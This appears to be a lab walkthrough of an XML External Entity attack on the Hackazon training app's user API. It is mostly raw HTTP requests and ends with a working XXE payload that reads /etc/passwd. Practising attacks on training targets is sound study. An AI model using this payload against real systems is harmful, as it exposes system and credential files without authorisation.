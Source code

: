 # A4 - XML External Entities (XXE)

## Hackazon

REST API documentation says: `/api/user/_id_ [ PUT ]`

`{"message":"Please provide next fields: username, first_name, last_name, user_phone, email, oauth_provider, oauth_uid, created_on, last_login, active, photo","code":400,"trace":""}`


Let's try some `application/json`

```
PUT /api/user/3 HTTP/1.1
Host: hackazon.owasp.local
Authorization: Token 1af538baa9045a84c0e889f672baf83ff24
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:58.0) Gecko/20100101 Firefox/58.0
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/json; charset=UTF-8
Content-Length: 67
Connection: close

{"username":"hacker","first_name":"Jozef","last_name":"Hackerovic"}
```

What about `application/xml` ?


```
PUT /api/user/3 HTTP/1.1
Host: hackazon.owasp.local
Authorization: Token 1af538baa9045a84c0e889f672baf83ff24
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:58.0) Gecko/20100101 Firefox/58.0
Content-Type: application/xml; charset=UTF-8
Content-Length: 117
Connection: close

<?xml version="1.0"?>
<username>hacker</username>
<first_name>Jozef</first_name>
<last_name>hackerovic</last_name>
```

Hello simplexml

```
PUT /api/user/3 HTTP/1.1
Host: hackazon.owasp.local
Authorization: Token 1af538baa9045a84c0e889f672baf83ff24
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/xml; charset=UTF-8
Content-Length: 139
Connection: close

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE roottag [<!ENTITY goodies SYSTEM "file:///etc/passwd">]>
<roottag>&goodies;</roottag>
```
